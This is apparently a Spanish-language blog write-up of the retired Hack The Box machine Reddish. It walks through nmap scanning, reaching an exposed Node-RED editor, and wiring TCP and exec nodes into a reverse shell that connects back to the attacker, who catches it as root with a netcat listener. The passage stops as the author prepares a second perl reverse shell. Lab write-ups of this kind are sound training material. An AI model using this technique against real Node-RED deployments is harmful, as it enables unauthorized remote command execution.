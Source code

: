 ```yaml
---
layout: post
title:  "Maquina  Retirada Reddish de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada REDDISH
tags: HTB, Pivoting, eCPPT, chisel, socat, rsync, bashscript, redis-cli, Node-Red, Maquinas Retiradas, Writeup
---
```


# Reddis ~ Pivoting ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.94       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE VERSION
1880/tcp open  http    Node.js Express framework
|_http-title: Error
```
Probamos a hechar un vistazo a la web y vemos que nos pone lo siguiente:
`Can not GET.`

Procedemos a usar el comando `curl`para hacer una peticion por el `metodo POST`
```bash
# curl -X POST "http://10.10.10.94:1880"                                      
{"id":"889671fb6a1a1ce0a10677b25be4eef8","ip":"::ffff:10.10.14.12","path":"/red/{id}"}
```
Hacemos lo que nos indica: 
Usamos Firefox para de nuevo chequear a donde nos lleva la ruta que nos indican -> `http://10.10.10.94:1880/red/889671fb6a1a1ce0a10677b25be4eef8` 

# Node-RED
Nos abre una session de Node-Red - QUe es Node-RED? [https://gruposinelec.com/que-es-node-red-y-para-que-sirve/](url)
```bash
"Node-RED" es una herramienta de "programación visual" que se implementa en dispositivos controladores de hardware. Trabaja mostrando de manera visual las relaciones y funciones de manera que se pueda programar sin escribir. 
Es un "panel de flow al que se pueden incorporar nodos que se comuniquen entre ellos" y puede instalarse en equipos como ordenadores Windows, Linux, o en servidores en la nube.
```
Procedemos a buscar por `INPUT` & `OUTPUT`, y selecionamos respectivamente para los dos, los nodos `TCP`/INPUT & `TCP`/OUTPUT. 
- El siguiente paso seria buscar por la funcion `EXEC` colocandola entre los dos nodos `TCP output & TCP input` 
    Procedemos a conetar los nodos de la siguiente forma `TCP INPUT`~`EXEC`~`TCP OUTPUT` para que justo ahora procedamos a setear los valores en los nodos `TCP INPUT Y OUTPUT`.
    Para `TCP_INPUT`: metemos nuestra `IP`+ `PUERTO` y seleccionamos el valor `TYPE` de la siguiente forma: `CONNECT TO $PORT` & `AT HOST $IP`  
    Para `TCP_OUTPUT`: Seteamos simplemente el valor `TYPE` en `REPLAY TO TCP`
    
# Ganando Acceso al Node-RED
- Nos ponemos a la escucha ya directamente con el comando `nc -vlnp 443` preparados para activar el boton de `DEPLOY` en el `NODE-RED` (Boton en la parte superior Derecha)
```bash
# nc -vlnp 443                                                                                                                                                                                                1 ⚙
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.94] 36216
whoami
root
```
Procedemos a enumerar a ver si la maquina tiene perl para lanzarnos una `Reverse_shell` en condiciones ya que vemos que a esta no se le puede hacer un tratamiento de la `tty`
```bash 
[object Object]which perl
/usr/bin/perl
```
Vemos que efectivamente dispone de `perl` asique procedemos a enviarnos otra `Reverse_shell`
